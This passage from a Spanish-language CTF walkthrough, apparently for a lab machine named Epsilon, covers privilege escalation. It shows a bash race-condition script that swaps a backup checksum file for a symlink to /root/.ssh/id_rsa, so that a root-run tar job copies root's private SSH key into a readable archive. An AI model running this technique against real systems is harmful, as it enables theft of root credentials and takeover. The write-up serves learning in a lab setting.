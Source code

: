 ![](https://i.imgur.com/YXpSXJb.png)

Podemos ver los **.tar** 

```bash
tom@epsilon:/dev/shm$ ls -l /var/backups/web_backups
total 2940
-rw-r--r-- 1 root root 1003520 Jan  3 21:10 078031540.tar
-rw-r--r-- 1 root root 1003520 Jan  3 21:11 105594351.tar
-rw-r--r-- 1 root root 1003520 Jan  3 21:12 133453462.tar
tom@epsilon:/dev/shm$ 
```

Tambien vemos que usa el **-h** <https://man7.org/linux/man-pages/man1/tar.1.html>

Vamos ir ala ruta **/tmp**  crearemos un script **.sh** le daremos permisos de ejecucion

Vamos a crear el archivo **/opt/backups/checksum** despues lo vamos a borrar para hacer un enlace a **/root/.ssh/id_rsa** y secuestrarlo 

```bash
tom@epsilon:/tmp$ cat zi.sh 
#!/bin/bash

while true; do
	if [ -e /opt/backups/checksum ]; then
		rm /opt/backups/checksum
		ln -s -f /root/.ssh/id_rsa /opt/backups/checksum
	       break
fi
done
tom@epsilon:/tmp$ 
```

Hay podemos ver un **tar** 

```bash
tom@epsilon:/tmp$ cd /var/backups/web_backups/
tom@epsilon:/var/backups/web_backups$ ls -l 
total 980
-rw-r--r-- 1 root root 1003520 Jan  3 21:25 583638874.tar
tom@epsilon:/var/backups/web_backups$ 
```

Vamos a descomprimirlo

```bash
tom@epsilon:/var/backups/web_backups$ cp 583638874.tar /tmp
tom@epsilon:/var/backups/web_backups$ cd /tmp
tom@epsilon:/tmp$ ls -l
total 1004
-rw-r--r-- 1 tom  tom  1003520 Jan  3 21:25 583638874.tar
drwx------ 3 root root    4096 Jan  3 18:53 systemd-private-03e64754b0a246a0bb9690e91e9cd911-apache2.service-qMsCci
drwx------ 3 root root    4096 Jan  3 18:53 systemd-private-03e64754b0a246a0bb9690e91e9cd911-systemd-logind.service-6U6EAf
drwx------ 3 root root    4096 Jan  3 18:53 systemd-private-03e64754b0a246a0bb9690e91e9cd911-systemd-resolved.service-4q9eWh
drwx------ 3 root root    4096 Jan  3 18:53 systemd-private-03e64754b0a246a0bb9690e91e9cd911-systemd-timesyncd.service-RU6nki
drwx------ 2 root root    4096 Jan  3 18:53 vmware-root_656-2689274927
-rwxrwxr-x 1 tom  tom      168 Jan  3 21:24 zi.sh
tom@epsilon:/tmp$ 
```
